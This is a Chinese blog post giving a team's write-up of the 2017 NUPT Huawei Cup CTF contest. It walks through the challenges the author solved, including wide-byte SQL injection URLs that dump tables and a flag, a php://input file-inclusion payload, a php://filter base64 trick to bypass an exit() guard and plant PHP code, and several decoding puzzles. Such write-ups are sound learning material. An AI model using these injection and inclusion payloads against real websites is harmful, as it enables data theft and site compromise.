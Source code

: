 ```yaml
---
title: 华为杯网络攻防大赛
date: 2017-11-21 20:52:36
tags: [CTF,华为杯,校赛]
categories: 技术分享
---
```

# 2017年11月18日南京邮电大学华为杯网络攻防大赛

2泡面+1可乐+12小时=特等奖(第一名)

或许是这辈子拿到最多奖金的一次比赛了吧。特等奖2000，还有额外奖金(感谢队友)
<!-- more -->
<strong>以下说的完成是指主要完成,不仅仅是个人功劳,团队合作是很重要滴。</strong>
## 我完成的题目
* SQL初战
* 签到二
* 彭泽家族天下第一
* 逆向签到
* Easy WireShark
* 大神的求救1
* 梅子酒要充水卡
* 混合编码
* php (未在比赛中完成,也有额外奖金)
## 队友完成的题目
* 签到
* Ajax
* BabyRE
* Single(有额外奖金)
* BabyRsA
* Alice&Bob Revenge
* Just PY

### 放出write_up 纪念下(留一个笔记)
<strong>仅放出我完成的题目的write_up吗,其他的可以看我队友的[blog](https://mzi.red/2017/11/19/nyctf2017/#more)</strong>


1. SQL初战

  宽字节注入,与原来平台上的思路一样,可参考我以前的[blog](http://m.blog.csdn.net/dcison/article/details/53125540) 的sql injection 3
这里直接放playload了

  https://ctf11.nuptsast.com/index.php?id=%df' union select 1,group_concat(table_name) from information_schema.tables where table_schema=database() %23
得到表名 flag

  https://ctf11.nuptsast.com/index.php?id=%df' union select 1,group_concat(column_name) from information_schema.columns where table_name=0x666C6167 %23
得到字段名flag

  拿flag:https://ctf11.nuptsast.com/index.php?id=%df' union select 1,group_concat(flag) from flag %23

  flag{NJUPT_Sql_1nj3ction_ch4ll_c0mpl3t3!}
2. 签到2

  访问hint.txt得到提示文件读取
  构建playload

  <img src="http://wx4.sinaimg.cn/large/006m1w1Agy1flq0t6taajj30sn0biabj.jpg" />

  对其base64解码得到flag

  <img src="http://wx1.sinaimg.cn/large/006m1w1Agy1flq0t9kzqij30f80dr74s.jpg" />

3. 彭泽家族天下第一
  根据以前做的原题改cookie中的login=1,可得到源码

  <img src="http://wx3.sinaimg.cn/large/006m1w1Agy1flq0tbz0ppj31fu0pete8.jpg" />

  发现是做过的原题,直接上playload:

  https://ctf7.nuptsast.com/index.php?user=php://input&file=39adfa359d047dc2d867e3f706b2aae2
  
  同时post 数据: IM PengZeFan!(由于比赛采用了https平台,我burp未配置证书,只能让队友发送playload了,所以说队友是很重要滴)

  <img src="http://wx1.sinaimg.cn/mw690/006m1w1Agy1flq0tek7p3j30qw0kq40p.jpg"/>

4. 逆向签到

  没啥技术含量,直接winhex等软件打开搜索flag就得到了

  <img src="http://wx2.sinaimg.cn/large/006m1w1Agy1flq0tgjullj30gd02s3za.jpg" />

5. Easy WireShark

  比赛的时候超幸运一下就找到了,赛后写write_up找了超久。。。

  <img src="http://wx3.sinaimg.cn/mw690/006m1w1Agy1flq0u0zbjwj31510pnwmx.jpg" />

6. 大神的求救1
  题目：0x11-32 0x16-34123 0x0-23 0x7-33 0x146-4311提示是摩斯密码

  对'-'前的数字转2进制

  得到10001 10110 0 111 101000110

  '-'后面的数字是分段

  分别分段
  1. 100 11（3 2）
  2. 10110（34123）34123一共13位，位数不足补0 所以是 000 0000 0 10 110
  3. 0 （23） 00 000
  4. 111 （33）000 111
  5. 101000110 （4311）1010 001 1 0

  连接字符串100 01 000 0000 0 10 110 00 000 000 111 1010 001 1 0
  用'-'替换1,'.'替换0,得到:

  -.. .- ... .... . -. --. .. ... ... --- -.-. ..- - .

  在线解密就行了

  <img src="http://wx3.sinaimg.cn/mw690/006m1w1Agy1flq0u3be7kj30mz061jro.jpg" />

7. 梅子酒要充水卡

  给了两个文件,文件名分别是36 48 其实是代表金额数
  题目要说充100 RMB ,对两个文件逐行分析(左边那个是已经改好的,已经代表100RMB,原来是36RMB)

  <img src="http://wx4.sinaimg.cn/mw690/006m1w1Aly1flq0u5p3iaj315y035ta4.jpg"/>

  36的16进制是24，48的16进制是30,所以6400是100RMB而3000+CFFF = FFFF ，所以用FFFF-6400得9BFF
  
  所以Flag就是 64 9B(flag是数据段+校验段)

8. 混合编码

  同样是南邮ctf平台上原题(base全家桶)

  直接上以前人家写好的代码

  ```python
      import base64
      steps = []
      f = open ('code.txt','rb')
      p = f.read()
      n = ""

      while True:
          # Base16
          try:
              print ("[?] using base16 deocde")
              n = base64.b16decode(p)
              print ("[+] %s" % (n))
              steps.append(16)
              p = n
              continue
          except:
              pass
          # Base32
          try:
              print ("[?] using base32 deocde")
              n = base64.b32decode(p)
              print ("[+] %s" % (n))
              steps.append(32)
              p = n
              continue
          except:
              pass
          # Base64
          try:
              print ("[?] using base64 deocde")
              n = base64.b64decode(p)
              print ("[+] %s" % (n))
              steps.append(64)
              p = n
              continue
          except:
              pass
          break

      print ("[+] flag found : %s" % (n))
      print ("[+] steps : %s" % (steps))

  ```
  
   (借用了队友电脑跑的结果)

  <img src="http://wx4.sinaimg.cn/mw690/006m1w1Aly1flq0u7fzh2j30nm0coq5e.jpg" />

9. php (与额外奖金错过了,心痛)

  关键是如何[绕过exit](https://www.leavesongs.com/PENETRATION/php-filter-magic.html)

  关键是这句话:

  “phpexit”一共7个字符，因为base64算法解码时是4个byte一组，所以给他增加1个“a”一共8个字符。这样，"phpexita"被正常解码，而后面我们传入的webshell的base64内容也被正常解码。结果就是<?php exit; ?>没有了。

  这题中访问其根目录得到的提示存在一个flagggggg.php文件。所以构建b=a+php语句的base64编码(我写的是<?php show_source('flagggggg.php') ?>)

  <img src="http://wx1.sinaimg.cn/mw690/006m1w1Aly1flq1k013ylj310j0p3ah7.jpg" />
